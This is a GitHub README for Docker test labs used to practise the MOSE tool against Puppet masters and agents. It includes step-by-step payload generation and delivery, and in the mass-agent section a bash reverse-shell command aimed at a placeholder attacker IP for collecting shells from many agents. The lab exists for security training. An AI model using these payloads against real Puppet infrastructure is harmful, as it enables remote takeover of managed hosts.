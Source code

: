 # puppet-test-lab
Create test labs which can be used to play around with MOSE and Puppet.

**Warning, take heed: This lab should be run in a controlled environment, as it contains vulnerable assets.**

## Dependencies
You must download and install the following for this environment to work:
* [Docker](https://docs.docker.com/install/)
* [Docker Compose](https://docs.docker.com/compose/install/)
* [Python 3](https://www.python.org/downloads/release/python-374/)

## Basic Lab Build Instructions
To create an environment with a Puppet Master that controls a single agent with a simple hello world module, run the following command:
```
cd basic && make run
```

To run MOSE against it:
1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t puppet`
3. Get it to the puppet master: `docker exec -it basic-puppetmaster wget http://YOURIPADDRESSGOESHERE:8080/puppet-linux`
4. Exec into the puppet master: `docker exec -it basic-puppetmaster bash`
5. Run the payload: `chmod +x puppet-linux; ./puppet-linux`
6. Wait for 30 minutes or exec into one of the agents and kick off the payload manually: `docker exec -it basic-puppetagent bash` and then run `puppet agent -t`
7. For this example, you should note that a file has been created in `/tmp` in the basic-puppetagent container, as we specified in step 2.


To tear down the basic lab, run the following command:
```
make destroy
```

## Mass Agent Lab Build Instructions
To create an environment with a Puppet Master that controls n number of agents, start by specifying the number of agents to create:
1. Open mass_puppet.py
2. Change `number_agents` to your desired number of agents. The counter starts at 2, so 21 agents actually yields 19.

Next, run the following command to stand up the environment:
```
cd mass_agents && make run
```

To run MOSE against the lab and get a ton of shells, do the following:
1. Build MOSE using `make build` in the MOSE repo
2. Download Platypus from here: https://github.com/WangYihang/Platypus/releases/tag/v1.1.0
3. Run Platypus using the instructions provided in the repo's README
4. Generate a payload with MOSE: `./mose -c "bash -i >& /dev/tcp/YOURIPADDRESSGOESHERE/8080 0>&1 &" -t puppet`
5. Get it to the puppet master: `docker exec -it massagents-puppetmaster wget http://YOURIPADDRESSGOESHERE:8080/puppet-linux
6. Exec into the puppet master: `docker exec -it massagents-puppetmaster bash`
7. Run the payload: `chmod +x puppet-linux; ./puppet-linux`

Back on the attackers system, kick off the agents by running: 
```
bash pwn.sh
```

To tear down the mass agent lab, run the following command:
```
make destroy
```

## Extended Lab Build Instructions
To create an environment with a Puppet Master that controls a prod and dev environment that include a web application, a mysql database, and various package installs, run the following command:
```
cd extended && make run
```

To run MOSE against it:
1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t puppet`
3. Get it to the puppet master: `docker exec -it extended-puppetmaster wget http://YOURIPADDRESSGOESHERE:8090/puppet-linux`
4. Exec into the puppet master: `docker exec -it basic-puppetmaster bash`
5. Run the payload: `chmod +x puppet-linux; ./puppet-linux`
6. Wait for 30 minutes or exec into one of the agents and kick off the payload manually: `docker exec -it prodlaptop bash` and then run `puppet agent -t`
7. For this example, you should note that a file has been created in `/tmp` in the prodlaptop container, as we specified in step 2.

You can also target development systems by running `puppet agent -t --environment development` on the appropriate systems. 

This environment can be used for more interesting attack chains, such as targeted payloads specifically for the webservers, leveraging secrets to access a database, etc.

To tear down the extended lab, run the following command:
```
make destroy
```
